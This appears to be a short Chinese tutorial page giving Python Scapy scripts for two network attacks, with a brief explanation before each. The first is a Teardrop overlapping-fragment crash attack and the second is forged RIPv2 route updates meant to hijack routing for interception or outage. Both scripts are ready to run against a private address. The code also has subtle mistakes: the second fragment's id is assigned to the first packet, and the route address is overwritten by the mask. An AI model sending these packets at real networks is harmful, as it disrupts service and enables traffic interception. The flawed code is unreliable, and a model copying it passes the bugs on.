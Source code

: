 
## TEAR DROP ##

#### 原理： ####

---

分片攻击的一种，当分片的数据包后一个数据包的偏移小于前一个数据包的偏移时，某些系统可能会崩溃

#### 代码： ####

---

	from scapy.all import *
	
	p1 = IP()/UDP()
	p1[IP].dst = "192.168.58.130"
	p1[IP].id = 1
	p1[IP].flags = 1
	p1[IP].frag = 0
	p1[IP].len = 60                    #第一个数据包长度是60
	
	p2 = IP()/UDP()
	p2[IP].dst = "192.168.58.130"
	p1[IP].id = 1
	p2[IP].flags = 0                
	p2[IP].frag = 1                    #偏移为1，小于第一个数据包的长度。造成teardrop攻击
	p2[IP].len = 60
	
	send(p1)
	send(p2)

## RIP协议攻击 ##

#### 原理： ####

---

rip协议更新路由，一般没有什么安全验证，收到了rip包就会更新。所以伪造的rip包可以欺骗使用rip协议的路由器
rip协议是路由器之间建立关系的协议之一。通过跳数来确定下一条路由器地址（路由器就像是不同网段的中转站，不同网段通信要将数据包发给路由器，路由器再传给下一个路由器，最终到达目标主机）。跳数越低，说明路线更优，路由器就会将去往那个网段的下一跳地址更新为跳数更低的路由器。

#### 代码： ####

---

	from scapy.all import *
	
	packet = Ether()/IP()/UDP()/RIP()/RIPEntry()
	packet[IP].src = "192.168.58.130"                
	packet[IP].dst = "224.0.0.9"                    #组播地址，rip更新的组播地址为 224.0.0.9
	packet[UDP].sport = 520                         #更新端口。rip的端口为520
	packet[UDP].dport = 520
	packet[RIP].cmd = 2                             #1为请求包，2为应答包
	packet[RIP].version = 2                         #标明rip版本为 ripv2
	packet[RIPEntry].addr = "1.1.1.0"               #要新增或更新的网段
	packet[RIPEntry].addr = "255.255.255.0"         #要新增或更新的网段子网掩码
	packet[RIPEntry].metric = 1                     #跳数，跳数越低，越容易将路由器的记录修改。此时如果成功让路由器去往1.1.1.0的网段的下一跳ip设置为上面的src地址，可能会造成断网或者中间人嗅探的情况。
	sendp(packet)

